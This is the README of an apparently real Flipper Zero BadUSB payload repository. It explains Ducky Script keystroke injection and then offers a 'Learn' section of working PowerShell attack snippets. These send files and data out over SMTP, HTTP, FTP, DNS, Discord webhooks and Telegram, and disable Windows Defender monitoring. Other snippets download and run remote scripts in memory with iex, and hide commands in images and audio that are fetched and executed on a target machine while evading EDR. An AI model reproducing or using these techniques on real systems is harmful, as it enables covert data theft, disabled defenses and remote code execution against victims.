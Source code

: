 <div align="center">

  <img src="assets/logo.png" alt="logo" width="200" height="auto" />
  <h1>Flipper Zero BADUSB Repo</h1>
  
  <p>
    A Collection of Flipper Zero BADUSB Payloads
  </p>
</div>

<br />

<!-- Table of Contents -->
# Table of Contents 📒

- [About the Project](#about-the-project)
  * [Rubber Ducky](#rubber-ducky)
  * [Shop](#shop)
- [Getting Started](#getting-started)
  * [Variables](#variables)
  * [Installation](#installation)
  * [Deployment](#deployment)
  * [Learn](#learn)
- [Roadmap](#roadmap)
- [Contact](#contact)
- [Acknowledgements](#acknowledgements)

  

<!-- Getting Started -->
## Getting Started 
This is a VERY brief explanation of ducky script in my own words. One may refer to this <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">link</a> if in doubt of supported commands.
<details>
    <summary>REM</summary>
  <ul>
    <li>REM is used as a comment, and does not perform ANY keystroke injection. It got the name REM from the word REMark (remark).</li>
  </ul>
  <pre><code>REM This is a comment</code></pre>
</details>

<details>
    <summary>STRING</summary>
  <ul>
    <li>STRING injects a series of keystrokes. Interpreting lowercase, uppercase, etc. automatically with Flipper Zero's implmentation.</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
  <ul>
    <li>we'll cover the ENTER command right after..</li>
  </ul>
</details>

<details>
    <summary>ENTER</summary>
  <ul>
    <li>ENTER does just that.. presses the return (enter) button! This is one of many supported commands which can be found <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a>!</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
</details>

<details>
    <summary>DELAY</summary>
  <ul>
    <li>DELAY creates a momentary pause in miliseconds. This is VERY useful when keystrokes are too fast for the target computer to interpret. If your working payload is failing.. this is probably the cause (ADD MORE DELAY).</li>
  </ul>
  <pre><code>STRING hey!
ENTER
DELAY 1000
STRING how are you?
ENTER
</code></pre>
  Output:
  <pre><code>hey!
[delays for 1 second]
how are you?</code></pre>
</details>

<details>
    <summary>Additional Commands</summary>
  <ul>
    <li>Modifiers: <pre><code>CTRL
CONTROL
SHIFT
ALT
GUI
WINDOWS</code></pre></li>
    <li>Combos: <pre><code>CTRL-ALT
CTRL-SHIFT
ALT-SHIFT
ALT-GUI
GUI-SHIFT</code></pre></li>
    <li>Cursors: <pre><code>DOWNARROW
DOWN
LEFTARROW
LEFT
RIGHTARROW
RIGHT
UPARROW
UP</code></pre></li>
    <li>Control and navigation: <pre><code>ENTER, BREAK, PAUSE, CAPSLOCK, DELETE, BACKSPACE, END, ESC, ESCAPE, HOME, INSERT, NUMLOCK, PAGEUP, PAGEDOWN, PRINTSCREEN, SCROLLOCK, SPACE, TAB, MENU, APP, SYSRQ</code></pre></li>
    <li>Functions: <pre><code>F1, F2, F3, F4, F5, F6, F7, F8, F9, F10, F11, F12</code></pre></li>
  </ul>
</details>

<details>
    <summary>Your first payload (Windows)</summary>
  <ul>
    <li>Lets create a simple payload to open notepad and display.</li>
  </ul>
  <pre><code>GUI r
STRING notepad.exe
ENTER
DELAY 2000
STRING hello world!
ENTER
</code></pre>
  Output: Opens the windows run box with GUI r [GUI is a modifier], and types in notepad.exe, which opens notetpad and types:
  <pre><code>hello world!</code></pre>
  <ul>
    <li>Again, you can find modifiers, combos, cursors, etc. <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a></li>
  </ul>
</details>



<!-- Variables -->
### Variables
To run most scripts, one must populate the variables inside the payload (.txt) file. All variables will be clearly stated with ```%CHANGE_ME%```

Examples:
```
discord_webook = %CHANGE_ME%
```
```
smtp_server = %CHANGE_ME%
```
<!-- Deployment -->
## Deployment

To deploy the payloads, one must edit the payload (if required) by changing the variables accordingly in the *.txt* file(s) of choice. 

Copy the payloads in the badusb folder in the flipper zero BADUSB directory.


<!-- Payload Development -->
## Learn
These are brief powershell concepts which covers just about whatever you need for red teaming.

<!-- Exfil Methods -->
<details>
    <summary>Exfiltration Methods</summary>
  <ul>
    <li>SMTP and/or SMS</li>
  </ul>

```powershell
$hello_world = "Hello World!" # exfiltrate data
$send_to = "%SEND_TO%" # could be the email used below, another email, or a phone number
$smtp_server = "%SMTP_SERVER%" # smtp.gmail.com
$smtp_username = "%SMTP_USERNAME%" # gmail account [example@gmail.com]
$token = "%TOKEN%" # gmail token/smtp password
$SMTPInfo = New-Object Net.Mail.SmtpClient($smtp_server, 587); $SMTPInfo.EnableSsl = $true; $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential($smtp_username, $token); $ReportEmail = New-Object System.Net.Mail.MailMessage; $ReportEmail.From = $smtp_username; $ReportEmail.To.Add($send_to); $ReportEmail.Body = "Flipper Report: $hello_world"; $SMTPInfo.Send($ReportEmail)
```
Phone Number Setup for *send_to* variable:
    
    Format: <phonenumber>@smsgateway
    example: 9992221111@tmomail.net
SMS Gateways for Service Providers can be found <a href="https://www.fbbbrown.com/help-faq/app-help/runsafe/list-of-mobile-carrier-gateway-addresses/">here</a>!

  <ul>
    <li>File Transfer with curl:</li>
  </ul>

```powershell
curl.exe -F "file1=@filename.txt" <end_point>
```
  <ul>
    <li>HTTP POST request:</li>
  </ul>

```powershell
$content = Get-Content %FILE_TO_EXFIL% # output.txt
Invoke-WebRequest -Uri http://<http_server> -Method POST -Body $content
```
Exfiltrat files and send the contents via a HTTP post request.

  <ul>
    <li>FTP File Upload:</li>
  </ul>

```powershell
$fileName = "%FILENAME%"
$ftpUrl = "%FTP_URL%"
$ftpPassw = "%FTP_PASSWORD%"
$sampleData = "Sample data for exfiltration test"
Set-Content -Path $fileName -Value $sampleData
$creds = Get-Credential -Credential $ftpPassw
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile $fileName -Credential $creds
```
Upload files via FTP to an existing FTP server
  <ul>
    <li>Exfiltrate over DNS:</li>
  </ul>

```powershell
$dnsServer = "%DNS_SERVER%"
$exfiltratedData = "String of exfiltrated data"
$chunkSize = 63 # look at the sizes of record types
$encodedData = [System.Text.Encoding]::UTF8.GetBytes($exfiltratedData)
$encodedData = [Convert]::ToBase64String($encodedData)
$chunks = $encodedData -split "(.{$chunkSize})"
foreach ($chunk in $chunks) {
    $dnsQuery = $chunk + "." + $dnsServer
    Resolve-DnsName -Name $dnsQuery
    Start-Sleep -Seconds 5
}
```
  <ul>
    <li>Exfiltrate File using curl to Discord Webhook:</li>
  </ul>

```powershell
$discordWebhook = '%WEBHOOK%'
curl.exe -F "file1=@%FILENAME%" $discordWebhook
```

  <ul>
    <li>Exfiltrate data to Discord Webhook:</li>
  </ul>

```powershell
$discordWebhook = "%WEBHOOK%"
$content='This is exfiltrated data'; $payload=[PSCustomObject]@{ content=$content }
Invoke-RestMethod -ContentType "Application/Json" -Uri $webhook -Method Post -Body ($payload | ConvertTo-Json)
```

  <ul>
    <li>Exfiltrate data to Telegram:</li>
  </ul>

```powershell
$id = "%CHAT_ID%"
$token = "%TELE_TOKEN%"
$data = "Exiltrated data example"
$URL = "https://api.telegram.org/bot{0}" -f $token
$MessageToSend = New-Object psobject; $MessageToSend | Add-Member -MemberType NoteProperty -Name 'chat_id' -Value $id
$MessageToSend | Add-Member -MemberType NoteProperty -Name 'text' -Value "$data"
Invoke-RestMethod -Method Post -Uri ($URL +'/sendMessage') -Body ($MessageToSend | ConvertTo-Json) -ContentType "application/json"
```


<!-- Execution Policy/AV Stuff -->
</details>

<details>
    <summary>ExecutionPolicy/AV</summary>
    <ul>
        <li>Disable Real Time Monitoring, Behavior Monitoring etc:</li>
    </ul>

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true
```

Admin Privileges is Required.

```powershell
powershell "Start-Process powershell -verb runas"
```

Can open powershell as admin.

  <ul>
    <li>Set Exclusive Path:</li>
  </ul>

```powershell
Add-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy unrestricted
```
To restrict the path back to normal:
```powershell
Remove-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy restricted
```
</details>

<!-- Execution -->
<details>
    <summary>Execution Tactics</summary>
    <ul>
        <li>Execute File from URL in memory:</li>
    </ul>

```powershell
iex(New-Object Net.WebClient).DownloadString('%URL_TO_PS1_FILE%')
```

</details>
<!-- Steganography -->
<details>
    <summary>Steganography (with Python)</summary>
    <p>Steganography is hiding secret information within ordinary-looking files like images or documents. Red teamers use it to sneak sensitive data or commands past security defenses. They can embed data in files to avoid detection, extract information stealthily from networks, hide malware, or verify file authenticity. It helps simulate realistic attacks and test how well defenses can detect covert activities.</p>

Prerequisites For The Methods Below:
| Prerequisite | Version |
|--------------|---------|
| Python       |  <=3    |

```
pip3 install Pillow numpy
```

  <ul>
    <li>LSB Encoding Powershell commands in an image:</li>
  </ul>

This technique encodes our powershell commands into specific regions of an image by replacing the LSB of the RGB color channels to our powershell command.


Here's a python implementation to encode our command:
<!-- LSB Encoder -->
```python
from PIL import Image
import numpy as np

def encode_data_in_region(image_path, data, region):
    img = Image.open(image_path)
    binary_data = ''.join(format(ord(char), '08b') for char in data)
    if len(binary_data) > region[2] * region[3] * 3:
        raise ValueError("Data too large to be encoded in the specified region")
    img_array = np.array(img)
    y_start, x_start, height, width = region
    binary_data_iter = iter(binary_data)
    for y in range(y_start, y_start + height):
        for x in range(x_start, x_start + width):
            if len(binary_data) == 0:
                break
            pixel = img_array[y, x]
            for i in range(3):
                try:
                    bit = int(next(binary_data_iter))
                except StopIteration:
                    bit = 0  # pad wit 0's
                pixel[i] = (pixel[i] & 0xFE) | bit # clear RGB color channel, replace with LSB bit value
                encoded_img = Image.fromarray(img_array)
    return encoded_img

# Usage
image_path = '%FILEPATH%'
secret_data = "whoami"
region_to_encode = (100, 100, 50, 50)  # Define the region as (y_start, x_start, height, width)
encoded_image = encode_data_in_region(image_path, secret_data, region_to_encode)
encoded_image.save('encoded_image.png')
```

This encodes a string in an image using LSB encoding at specific regions ```(100, 100, 50, 50)``` to hide the commands within the image for execution. It then outputs the encoded image to a png file.

We can now **post** or **host** the encoded image for the target machine to download.

1. Create a github repository
2. Host in locally using python server.http
3. External file sharing providers

<!-- LSB Decoder -->
Lets now decode the commmand in the image using powershell and execute:
```powershell
$url = %URL_TO_IMAGE%
$imagePath = encoded_image.png
# download encoded image
$webClient = New-Object System.Net.WebClient
$webClient.DownloadFile($url, $imagePath)

Add-Type -AssemblyName System.Drawing

try {
    $imageBytes = [System.IO.File]::ReadAllBytes($imagePath)
    $memoryStream = New-Object System.IO.MemoryStream
    $memoryStream.Write($imageBytes, 0, $imageBytes.Length)
    $memoryStream.Seek(0, 'Begin') | Out-Null

    $image = [System.Drawing.Image]::FromStream($memoryStream)
    # regions we set in the encoder
    $region = New-Object System.Drawing.Rectangle(100, 100, 50, 50)

    $bitmap = New-Object System.Drawing.Bitmap($image)

    $decodedData = ""
    for ($y = $region.Top; $y -lt ($region.Top + $region.Height); $y++) {
        for ($x = $region.Left; $x -lt ($region.Left + $region.Width); $x++) {
            $color = $bitmap.GetPixel($x, $y)
            # Extract the lsb from each color channel
            $bit = $color.R -band 1
            $decodedData += $bit
            $bit = $color.G -band 1
            $decodedData += $bit
            $bit = $color.B -band 1
            $decodedData += $bit
        }
    }

    $paddingLength = 8 - ($decodedData.Length % 8)
    if ($paddingLength -ne 8) {
        $decodedData += '0' * $paddingLength
    }
    $decodedMessage = ""
    for ($i = 0; $i -lt $decodedData.Length; $i += 8) {
        $byte = [Convert]::ToByte($decodedData.Substring($i, 8), 2)
        $decodedMessage += [char]$byte
    }

    $decodedMessage = $decodedMessage -creplace "[^\x20-\x7E]", ""
    Write-Host $decodedMessage # output command
}
catch {
    Write-Host "Error: $_"
}
```
**Note** the url path, after uploading the encoded image to your file sharing provider, copy & paste the **direct** url to your encoded file inside the decoders ```$url``` variable.

Next we can upload our decoder file as a text file to easily grab the contents of the file for it to download the image, decode, and execute!

OR

We can convert this existing decoder to a *Ducky Script*, update the ```$url``` variable to where your audio file is stored and call it a day!

Executing on a target machine would look like this when saving the decoder to a file sharing website:
```powershell
iex(iwr %download_to_decoder.txt%).Content | iex
```
Issues with this technique is uploading to external file sharing providers, as they may *modify/compress* the file upon upload, which creates an issue with our existing decoding process.

<!-- Spread Spectrum Encoding -->
  <ul>
    <li>Spread Spectrum encoding:</li>
  </ul>
In this Technique, we'll convert the commands into binary and encode it into an audio file. By adjusting the amplitude for each bit (0/1), we can encode our commands in the audio without distoring the sound.


Heres a python implementation to encode our command:
```python
import wave
import numpy as np

def spread_spectrum_audio_encode(audio_path, message):
    with wave.open(audio_path, 'rb') as audio_file:
        audio_params = audio_file.getparams()
        audio_frames = audio_file.readframes(audio_params.nframes)
    audio_data = np.frombuffer(audio_frames, dtype=np.int16)
    
    binary_message = ''.join(format(ord(char), '08b') for char in message)
    message_length = len(binary_message)
    
    watermarked_audio_data = audio_data.copy()
    for i in range(message_length):
        if binary_message[i] == '1':
            watermarked_audio_data[i] += 100  # Increase amplitude for '1'
        else:
            watermarked_audio_data[i] -= 100  # Decrease amplitude for '0'
    
    with wave.open('watermarked_audio.wav', 'wb') as watermarked_audio_file:
        watermarked_audio_file.setparams(audio_params)
        watermarked_audio_file.writeframes(watermarked_audio_data.tobytes())

# Usage
audio_path = '%FILEPATH%.wav'
message = "whoami"
print(f'[*] Length of Message: {len(message)}') # remember length of message
spread_spectrum_audio_encode(audio_path, message)
```
This will encode our command ```whoami``` in a newly created audio file called ```watermarked_audio.wav```. *Take note* of our message length (length: ```6```).


Much like our LSB technique, we can upload or host our newly encoded audio file for our target machine to download.

Lets decode the audio file in powershell and execute:
```powershell
$url = "%URL_TO_AUDIO_FILE%"
# INPUT the length of MESSAGE!!
# $length = 6 [whoami = 6]
$length = 6 # edit this base on message length

function Decode-SpreadSpectrumAudio {
    param (
        [byte[]]$audioBytes,
        [int]$messageLength
    )
    try {
        $extractedMessage = ""
        for ($i = 44; $i -lt ($messageLength * 2) + 44; $i += 2) {
            # conv two bytes to a 16-bit signed int
            $sample = [BitConverter]::ToInt16($audioBytes, $i)

            if ($sample -gt 0) {
                $extractedMessage += "1"
            }
            else {
                $extractedMessage += "0"
            }
        }
        $decodedMessage = ""
        for ($i = 0; $i -lt $extractedMessage.Length; $i += 8) {
            $binarySubstring = $extractedMessage.Substring($i, 8)
            $charCode = [Convert]::ToInt32($binarySubstring, 2)
            $decodedMessage += [char]$charCode
        }
        return $decodedMessage
    }
    catch {
        Write-Host "Error: $_"
    }
}

$messageLength = $length * 8
$req = (Invoke-WebRequest -Uri $url -Method Get -UseBasicParsing).Content
$decodedMessage = Decode-SpreadSpectrumAudio -audioBytes $req -messageLength $messageLength
"$decodedMessage"
```

**Note** the url path, after uploading the encoded audio to your file sharing provider, copy & paste the **direct** url to your encoded file inside the decoders ```$url``` variable.

Next we can upload our decoder file as a text file to easily grab the contents of the file for it to download the audio, decode, and execute!

OR

We can convert this existing decoder to a *Ducky Script*, update the ```$url``` variable to where your audio file is stored and the length of your powershell command, and call it a day!

Executing this with the first option above looks like such:
```powershell
iex(iwr %URL_TO_DECODER.txt%).Content | iex
```

When using steganography as a means of execution or exfiltration, it's best to familiarize yourself with the documents, attachments, etc. that are common in the environment one is pentesting. Additionally, downloading images or audio files from suspicious URLs or the images itself contain odd graphics or other means of content is a huge red flag. Be wise on the images or audio files in use to keep a low profile on EDR solutions etc.

These techniques can be found in another repository of mine <a href="https://github.com/CharlesTheGreat77/BadSteganography">here</a>.
</details>

<!-- Utilities -->
<details>
    <summary>Utilities</summary>
    <ul>
        <li>Get contents of file to a variable:</li>
    </ul>

```powershell
$content = [IO.File]::ReadAllText("%FILEPATH%");
```
OR
```powershell
$content = [System.IO.File]::ReadAllLines("%FILEPATH%")
```
```powershell
$content = cat %FILEPATH%
```
```powershell
$content = Get-Content -Path %FILEPATH%
```
```powershell
$reader = [System.IO.StreamReader]::new("%FILEPATH%")
try {
    $content = $reader.ReadToEnd()
} finally {
    $reader.Close()
}
```
</details>

<!-- Payload Testing -->
# PyDucky
Quickly test payloads using <a href="https://github.com/CharlesTheGreat77/pyDucky">PyDucky</a> locally. This allows for **efficient** payload development and convenient testing.


<!-- Roadmap -->
## Roadmap

* [ ] Update Learn section in README
* [ ] Update filesystem hierarchy
* [ ] Update Payload list

<!-- Contact -->
## Contact

Dicord: DoobTheGoober

Projects: [github](https://github.com/CharlesTheGreat77)


<!-- Acknowledgments -->
## Acknowledgements
I want to give some honor to specific individuals regardless of contribution for payload creation or sheer knowledge and motivation!

 - [Rocket God](https://github.com/RocketGod-git)
 - [Kavitate](https://github.com/Kavitate)
 - [Derek Jamison](https://github.com/jamisonderek)
 - [Redd](https://github.com/InfoSecREDD)
